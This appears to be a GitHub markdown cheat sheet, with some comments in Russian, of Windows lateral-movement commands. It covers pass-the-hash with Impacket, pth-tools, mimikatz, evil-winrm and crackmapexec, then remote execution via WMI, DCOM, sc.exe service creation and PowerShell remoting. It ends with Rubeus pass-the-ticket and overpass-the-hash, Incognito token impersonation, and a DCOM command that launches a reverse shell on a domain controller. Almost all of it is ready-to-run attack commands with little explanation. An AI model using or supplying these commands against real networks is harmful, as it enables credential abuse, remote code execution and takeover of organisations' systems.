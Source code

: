 ## Pass the Hash:  
**Impacket and pth**:  
1) psexec.py -hashes LM:NTLM admin@target  
2) wmiexec.py -hashes :NTLM admin@target  
3) pth-winexe -U admin% //target cmd  
4) pth-wmic -U admin% //target "select Name from Win32_UserAccount"  
5) pth-wmis -U admin% //target "cmd.exe /c whoami > c:\out.txt"
6) pth-smbclient -U admin% //target/c$
7) pth-rpcclient -U admin% //target
8) pth-sqsh -U admin -S target
9) pth-curl http://target/exec?cmd=ipconfig
10) pth-net rpc group ADDMEM 'Administrators' username -S target -U domain/user

**Evil-winrm**:  
evil-winrm -i target -u admin -H "NT hash value"

**Windows (mimikatz)**:  
mimikatz.exe securlsa::pth /user:username /domain:domain /ntlm:NTLM_HASH /run:cmd  

**RDP**:  
xfreerdp /u:<user> /d:domain /pth:hash /v:ipAddr 

**CME**:  
crackmapexec smb <IP> -u username -H ":NT hash value"  

## PowerShell-Remoting: 

Enter-PSSession -ComputerName <computername> -Credentials <domain>\username  

Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName <computername> -Credentials <domain>\username  

$session = New-PSSession -ComputerName <computer name> -verbose  
Enter-PSSession -Session $session -Verbose  
Invoke-Command -Session $session -ScriptBlock {whoami;hostname} -Verbose  

## REG.EXE:  
reg.exe; //Удаленный доступ к реестру с правами на запись на самом деле нам дает RCE.  
  
## DCERPC:  
Использует порты 135/TCP и 4915x/TCP, где 4915x — динамически назначаемые порты. Иногда могут использоваться порты из другого диапазона.  

1. wmiexec.py admin@target; //wmiexec.py -nooutput admin@target "mkdir c:\pwn".  
2. dcomexec.py admin@target; //dcomexec.py -nooutput admin@10.0.0.64 "mkdir c:\123".  
3. wmis -U admin //target "mkdir c:\pwn"/  
4. wmic.exe /user:username /password:password /node:target process call create '"c:\123".  
5. sc.exe; //Назначение инструмента — удаленное управление службами и драйверами. 
    - sc.exe \\target create testservice binPath= \path\to\prog start= auto  
    - sc.exe \\target start testservice  

## Pass the Ticket (Rubeus):  
**First step**: [steal ticket](https://github.com/Kerkroups/Cyber-Kill-Chain/blob/main/Data%20Gathering%20-%20Credentials%20Theft.md#%D0%B8%D0%B7%D0%B2%D0%BB%D0%B5%D1%87%D0%B5%D0%BD%D0%B8%D0%B5-kerberos-tickest-rubeus)  
**Second step**: create hidden process  
Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:dev.cyberbotic.io /username:username /password:fakepassword  
**Pass the ticket**: Rubeus.exe ptt /luid:(luid of areated process) /ticket:(stolen ticket)  
  
**Tools to steal token**:  
  1. https://github.com/slyd0g/PrimaryTokenTheft  
  2. https://www.ired.team/offensive-security/privilege-escalation/t1134-access-token-manipulation  
  3. Cobalt Strike, Covenant.  

## Overpass the Hash (Rubeus):  
**Overpass the hash is a technique which allows us to request a Kerberos TGT for a user use their NTLM or AES hash**.  
Rubeus.exe asktgt /user:username /aes256:(aes256 hash) /opsec /nowrap

## Token Impersonation (Incognito):  
load_incognito //load module;  
list_tokens -u //list available tokens;  
impersonate_token [domain]\\[username] //impersonate token;  
shell //get shell with privilege of stealed token;  

## DCOM:  
[Invoke-DCOM.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1) example:  
1) powershell-import C:\Tools\Invoke-DCOM.ps1  
2) powershell Invoke-DCOM -ComputerName dc.domain.local -Method MMC20.Application -Command C:\Windows\reverse_shell.exe  
  
**Aditional information and techniques**:  
  - https://www.ired.team/offensive-security/lateral-movement/t1175-distributed-component-object-model  
  - https://redblue42.code42.com/detecting-lateral-movement-via-dcom/  



  
